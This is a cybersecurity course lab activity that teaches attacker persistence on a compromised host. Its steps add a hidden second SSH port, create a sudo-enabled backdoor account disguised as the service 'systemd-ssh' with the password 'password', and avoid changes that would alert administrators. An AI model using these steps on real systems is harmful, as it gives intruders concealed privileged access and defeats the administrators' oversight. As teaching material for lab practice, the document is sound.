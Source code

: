 ## Activity File: Persistence

In the previous activity, you dumped the `/etc/shadow` file and cracked several passwords in it. In this activity, you added an additional port for the SSH service to listen on, then opened that port on the firewall. We don't want to change the original port, 22, because that would be a red flag for administrators. 

Finally, you created an account, added it to the sudoers group, and ensured it could SSH over the new port that you specified.

**Reminder**: Ensure that you are performing the activities on the target machine and not your own assessment machine! This means you should be SSH'd in, or have a reverse/Meterpreter shell into the target.

### Instructions 

1. On the target host, read the top 10 lines of the SSH config file, located at `/etc/ssh/sshd_config`, and identify the line where a port is specified.

     - `head /etc/ssh/sshd_config`

     ![A screenshot depicts the results of the command.](head.PNG)
   
2. Using Nano, edit the file to add an additional port, 10022. (You must `sudo` to do this.)

     - `sudo nano /etc/ssh/sshd_config`

	 ![A screenshot depicts the results of the command.](addport.PNG)

     - Due to this machine having limited services, you must restart the machine in order to restart the SSH service. Restart the machine via `sudo reboot`.

3. Now, create a new backdoor account. In order to remain inconspicuous, name this account so that it appears as if it's a service. Create a new account named "systemd-ssh", with the password "password", and then add it to the sudoers group. 

     - `sudo adduser systemd-ssh`

	 ![A screenshot depicts the results of the command.](adduser.PNG)

     - `sudo usermod -aG sudo systemd-ssh`

4. Confirm that the new account works by SSHing from your machine to the target host over port 10022 as the new user you created.

     - `ssh systemd-ssh@ipaddress -p 10022`


---
© 2021 Trilogy Education Services, a 2U, Inc. brand. All Rights Reserved.




